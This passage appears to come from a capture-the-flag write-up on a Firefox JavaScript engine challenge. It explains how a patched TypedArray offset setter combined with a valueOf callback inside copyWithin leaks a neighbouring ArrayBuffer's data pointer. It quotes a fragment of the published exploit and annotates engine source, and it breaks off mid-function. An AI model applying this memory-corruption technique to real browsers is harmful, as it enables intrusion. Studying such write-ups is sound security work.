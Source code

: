 ```
... ( other patch ).....
........................
```

We can see that the patch add `setter` to both `offset` and `length` property in the `TypedArray` class, which allow us to set the `offset` ( starting point of the data buffer ) and the `length` of a `TypedArray`. However the patch has also handled the boundary check for `offset` and `length` as well, so we can't do something like `tarray.offset=10000` and use out-of-boundary (OOB) read/write to exploit the service. We'll have to find another way to exploit the vulnerability.


## Analyzing the Exploit

We now start analyzing the [exploit code](https://github.com/saelo/feuerfuchs/blob/master/exploit/pwn.js) that saelo wrote for this challenge. 
The exploit function start at line 233:

```javascript
function pwn() {
    // Allocate multiple ArrayBuffers of the largest size such that the data is still stored inline
    var buffers = [];
    for (var i = 0; i < 100; i++) {
        buffers.push(new ArrayBuffer(96));
    }

    var view = new Uint8Array(buffers[79]); // view is our TypedArray
    var hax = { valueOf: function() { view.offset = 88; return 0; } };

    // Trigger the bug first time to leak the data pointer of the following ArrayBuffer
    view.copyWithin(hax, 32+8, 40+8);
```

To understand why the bug is triggered, we'll have to dig into the source code of [copyWithin](https://github.com/mozilla/gecko-dev/blob/c64d600a96280475b6306a3b1ff933431c572784/js/src/builtin/TypedArray.js#L156):

```javascript
function TypedArrayCopyWithin(target, start, end = undefined) {
    // target = 0 ( = hax);
    // start = 40;
    // end = 48;
    .....................
    var obj = this;
    var len = TypedArrayLength(obj); // len = 96

    assert(0 <= len && len <= 0x7FFFFFFF,
           "assumed by some of the math below, see also the other assertions");

     // the following line trigger the "valueOf" function
     // this make the view's offset = 88 and length = 8
     // however, "len" variable is still 96
    var relativeTarget = ToInteger(target);  // trigger valueOf

    /* to = 0 */
    var to = relativeTarget < 0 ? std_Math_max(len + relativeTarget, 0)
                                : std_Math_min(relativeTarget, len);

    
    var relativeStart = ToInteger(start);
    /* from = 40 */
    var from = relativeStart < 0 ? std_Math_max(len + relativeStart, 0)
                                 : std_Math_min(relativeStart, len);

    
    var relativeEnd = end === undefined ? len
                                        : ToInteger(end);
```